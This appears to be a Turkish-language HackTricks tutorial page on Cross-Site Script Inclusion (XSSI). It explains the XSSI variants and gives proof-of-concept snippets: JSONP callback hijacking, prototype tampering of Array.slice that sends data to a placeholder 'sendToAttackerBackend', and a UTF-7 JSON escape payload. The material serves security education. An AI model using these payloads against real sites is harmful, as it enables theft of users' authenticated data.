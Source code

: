 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Temel Bilgiler

**Cross-Site Script Inclusion (XSSI)**, HTML'deki `script` etiketinin doğasından kaynaklanan bir güvenlik açığıdır. Çoğu kaynağın **Same-Origin Policy (SOP)**'ye tabi olmasının aksine, script'ler farklı alanlardan dahil edilebilir. Bu davranış, farklı sunucularda barındırılan kütüphanelerin ve diğer kaynakların kullanımını kolaylaştırmak için tasarlanmıştır, ancak aynı zamanda potansiyel bir güvenlik riski de taşır.

### **XSSI**'nin Ana Özellikleri:
- **SOP'yi Aşma**: Script'ler **Same-Origin Policy**'den muaf tutulur, bu da onların farklı alanlar arasında dahil edilmesine olanak tanır.
- **Veri Açığa Çıkma**: Bir saldırgan, bu davranışı kullanarak `script` etiketi aracılığıyla yüklenen verileri okuyabilir.
- **Dinamik JavaScript/JSONP Üzerindeki Etki**: **XSSI**, özellikle dinamik JavaScript veya **JSON with Padding (JSONP)** için geçerlidir. Bu teknolojiler genellikle kimlik doğrulama için "ambient-authority" bilgilerini (çerezler gibi) kullanır. Farklı bir ana bilgisayara script isteği yapıldığında, bu kimlik bilgileri (örneğin, çerezler) isteğe otomatik olarak dahil edilir.
- **Kimlik Doğrulama Token'ı Sızıntısı**: Bir saldırgan, bir kullanıcının tarayıcısını kontrol ettikleri bir sunucudan script istemeye kandırabilirse, bu isteklere dahil olan hassas bilgilere erişebilir.

### Türler

1. **Statik JavaScript** - Bu, XSSI'nin geleneksel formunu temsil eder.
2. **Kimlik Doğrulama ile Statik JavaScript** - Bu tür, erişim için kimlik doğrulama gerektirdiği için farklıdır.
3. **Dinamik JavaScript** - Dinamik olarak içerik üreten JavaScript'i içerir.
4. **JavaScript Olmayan** - Doğrudan JavaScript içermeyen güvenlik açıklarını ifade eder.

**Aşağıdaki bilgiler [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)** adresinin bir özetidir. Daha fazla ayrıntı için kontrol edin.


### Normal XSSI
Bu yaklaşımda, özel bilgiler genel olarak erişilebilir bir JavaScript dosyasına gömülmüştür. Saldırganlar, dosya okuma, anahtar kelime arama veya düzenli ifadeler gibi yöntemler kullanarak bu dosyaları tespit edebilir. Bulunduktan sonra, özel bilgileri içeren script, kötü niyetli içeriklere dahil edilerek hassas verilere yetkisiz erişim sağlanabilir. Aşağıda bir örnek istismar tekniği gösterilmektedir:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dinamik-JavaScript-tabanlı-XSSI ve Kimlik Doğrulamalı-JavaScript-XSSI
Bu tür XSSI saldırıları, bir kullanıcının isteğine yanıt olarak gizli bilgilerin dinamik olarak script'e eklenmesini içerir. Tespit, çerezlerle ve çerez olmadan istekler göndererek ve yanıtları karşılaştırarak yapılabilir. Eğer bilgiler farklıysa, bu gizli bilgilerin varlığını gösterebilir. Bu süreç, [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp eklentisi gibi araçlar kullanılarak otomatikleştirilebilir.

Eğer gizli veriler bir global değişkende saklanıyorsa, bu, Regular XSSI'de kullanılan benzer yöntemlerle istismar edilebilir. Ancak, eğer gizli veriler bir JSONP yanıtında yer alıyorsa, saldırganlar bilgiyi almak için geri çağırma fonksiyonunu ele geçirebilir. Bu, ya global nesneleri manipüle ederek ya da JSONP yanıtı tarafından yürütülecek bir fonksiyon kurarak yapılabilir, aşağıda gösterildiği gibi:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Global ad alanında yer almayan değişkenler için, *prototype tampering* bazen istismar edilebilir. Bu teknik, JavaScript'in tasarımını kullanır; burada kod yorumlaması, çağrılan özelliği bulmak için prototip zincirini geçmeyi içerir. Belirli fonksiyonları, örneğin `Array`'nin `slice` fonksiyonunu geçersiz kılarak, saldırganlar global olmayan değişkenlere erişebilir ve leak edebilir:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Daha fazla bilgiye, [Sebastian Lekies](https://twitter.com/slekies) adlı Güvenlik Araştırmacısının çalışmalarında ulaşılabilir; kendisi bir [vektörler](http://sebastian-lekies.de/leak/) listesi tutmaktadır.

### Non-Script-XSSI
Takeshi Terada'nın araştırması, Non-Script dosyalarının, CSV gibi, `script` etiketinde kaynak olarak dahil edilerek cross-origin olarak sızdırıldığı başka bir XSSI biçimini tanıtmaktadır. Jeremiah Grossman’ın 2006 yılında tam bir Google adres defterini okumak için yaptığı saldırı ve Joe Walker’ın 2007 JSON veri sızıntısı gibi tarihsel XSSI örnekleri, bu tehditlerin ciddiyetini vurgulamaktadır. Ayrıca, Gareth Heyes, belirli tarayıcılarda etkili olan JSON formatından kaçmak ve script'leri çalıştırmak için UTF-7 kodlu JSON içeren bir saldırı varyantını tanımlamaktadır:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
